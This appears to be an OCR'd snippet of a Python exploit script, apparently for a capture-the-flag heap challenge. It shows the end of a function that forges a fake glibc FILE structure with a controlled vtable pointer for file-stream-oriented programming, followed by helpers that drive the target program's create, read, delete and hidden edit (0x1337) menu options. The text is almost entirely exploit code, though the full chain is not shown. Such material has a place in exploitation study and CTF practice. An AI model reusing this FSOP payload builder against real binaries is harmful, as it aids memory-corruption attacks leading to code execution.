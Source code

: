 ```python

    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)

    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)

    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)

    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)

    FSOP += p64(__pad5) + p32(_mode)

    if _unused2 == b"":

        FSOP += b"\x00" * 0x14

    else:

        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")

    FSOP += p64(vtable)

    FSOP += more_append

    return FSOP

  

def create(idx : int,  ctt : bytes):

    p.sendlineafter(b'> ', b'1')

    p.sendlineafter(b': ', str(idx).encode())

    p.sendafter(b': ', ctt)

  

def read(idx : int):

    p.sendlineafter(b'> ', b'2')

    p.sendlineafter(b': ', str(idx).encode())

    return p.recvline()

  

def delete(idx : int):

    p.sendlineafter(b'> ', b'3')

    p.sendlineafter(b': ', str(idx).encode())

def edit(idx : int,  ctt : bytes):

    p.sendlineafter(b'> ', str(0x1337).encode())

    p.sendlineafter(b': ', str(idx).encode())

    p.sendafter(b': ', ctt)

```
